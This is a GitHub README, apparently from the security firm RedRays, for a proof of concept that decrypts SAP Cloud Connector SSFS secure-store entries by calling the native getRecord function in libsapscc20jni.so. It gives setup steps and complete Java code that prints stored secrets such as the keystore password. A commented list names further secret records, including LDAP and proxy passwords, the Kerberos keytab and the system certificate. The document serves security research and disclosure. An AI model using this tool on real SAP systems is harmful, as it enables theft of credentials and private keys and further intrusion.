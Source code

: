 # SAP_Cloud_Connector_SSFS_Decryption
This repository offers a Proof of Concept (PoC) for decrypting SAP Cloud Connector SSFS. The core feature of this PoC is the exploitation of an exported function - getRecord, present in the libsapscc20jni.so file. The advantage is that you can decrypt the SSFS properties values WITHOUT REVERSING THE ECRYPTION ALGORITHM.

![image](https://github.com/redrays-io/SAP_Cloud_Connector_SSFS_Decryption/assets/7976421/58d49443-f87e-46cf-a1bf-e8d9799e9e88)

To begin, you are required to download the SSFS file from the SAP Server to your personal device. As an instance, in my case, the SSFS was stored at this location on my laptop: /home/vah13/research/SSFS_SCC.DAT.
Before initiating the decryption process, it is necessary to define two parameters in the environment:

* The SAP System ID (SID). Set it with this command: export SAPSYSTEMNAME=SCC.
* The pathway to SSFS excluding the complete filename. Set it with this command: export RSEC_SSFS_DATAPATH=/home/vah13/research/SSFS.

It's important to utilize the libsapscc20jni.so library.
You can now compile and run the following code to decrypt the SSFS:
```java
package com.sap.scc.jni;  // the package must be com.sap.scc.jni

import java.io.IOException;
import java.util.Properties;

public class SecStoreAccess { // the class name must be SecStoreAccess
  
  static synchronized native char[] getRecord(final String p0) throws SecStoreAccessException, IllegalArgumentException;
  
  public static void main(String[] args) throws IOException {
    if (args.length > 1 )
    {
      System.out.print("java -jar decode.jar");
    }
    
    System.load("/usr/lib/libsapscc20jni.so");
    try
    {
      /* 
      available parameters for getRecord function
      
      "CLOUD_CONN/JAVA_KEYSTORE_PASSWORD";
      "CLOUD_CONN/SCIM_SERVICE_USER_PASSWD";
      "CLOUD_CONN/LDAP_SERVICE_USER_PASSWORD";
      "CLOUD_CONN/PROXY_PASSWORD";
      "CLOUD_CONN/KERBEROS_KTAB";
      "CLOUD_CONN/SYSTEM_CERTIFICATE";
      "CLOUD_CONN/ALERT_EMAIL_SERVER_SECRET";
      */      
      char[] result = getRecord("CLOUD_CONN/JAVA_KEYSTORE_PASSWORD");
      System.out.println(new String(result));
    
      }catch (Exception e)
    {
      e.printStackTrace();
    }
  }

}
```
![image](https://user-images.githubusercontent.com/7976421/202764294-14d66338-b94f-4825-8fec-cb673f46e15c.png)


## Contact RedRays

For any questions or further details, don't hesitate to reach out:

* [GitHub](https://github.com/redrays-io)
* [Email](mailto:vahagn@redrays.io)
* [Website](https://www.redrays.io?gh)
